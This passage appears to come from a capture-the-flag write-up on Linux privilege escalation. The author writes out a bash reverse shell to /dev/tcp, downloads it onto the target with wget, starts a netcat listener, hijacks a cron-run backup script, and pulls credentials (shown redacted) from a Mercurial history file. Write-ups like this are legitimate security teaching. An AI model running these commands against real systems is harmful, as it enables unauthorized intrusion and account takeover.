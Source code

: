 1. `echo "bash -c 'bash -i >& /dev/tcp/<ip address>/<port> 0>&1'" > rev.sh`\
(On local machine)

2. `mkdir /tmp/.tools; cd /tmp/.tools; wget http://<ip address>/rev.sh`\
(On target machine)

![Download Reverse Shell](images/mysql_www-data_privesc_1.png)

3. `nc -nvlp <port>`\
(On local machine)

4. `mv /data/scripts/app_backup.sh /data/scripts/app_backup.sh.old`

5. `mv /tmp/.tools/rev.sh /data/scripts/app_backup.sh`

I then waited for the cronjob to run the **app_backup.sh** script and execute my reverse shell.

![www-data Reverse Shell](images/www-data_revshell.png)

6. After getting a reverse shell connection, replace the modified **app_backup.sh** with the original.\
`rm /data/scripts/app_backup.sh; mv /data/scripts/app_backup.sh.old /data/scripts/app_backup.sh`

## PrivEsc to User 'qa'
After some file enumeration, I found out that the developers of the web application use **Mercurial** as a source control management tool. It is similar to **git**.

> Mercurial is a free, distributed source control management tool. It efficiently handles projects of any size and offers an easy and intuitive interface.

I found a directory containing some source code from a previous version of the website. `/var/www/app-qatesting/.hg`.\
Within this directory I found: `/var/www/app-qatesting/.hg/store/data/app.py.i`.

When running the **file** command on this file, it says that it is a ***data*** file. So I ran **strings** on it, `strings /var/www/app-qatesting/.hg/store/data/app.py.i`

```
tvGq
|YC^,2
t[QRpn@/S
>ody
'app.secret_key = s.token_hex(32)
T sql = f"SELECT * FROM appointments WHERE_email LIKE %s"
#md5
9    'user': 'chef',
    'password': '[REDACTED]',
V([Q
>GQ$
6    'user': 'qa',
    'password': '[REDACTED]',
P8*p
```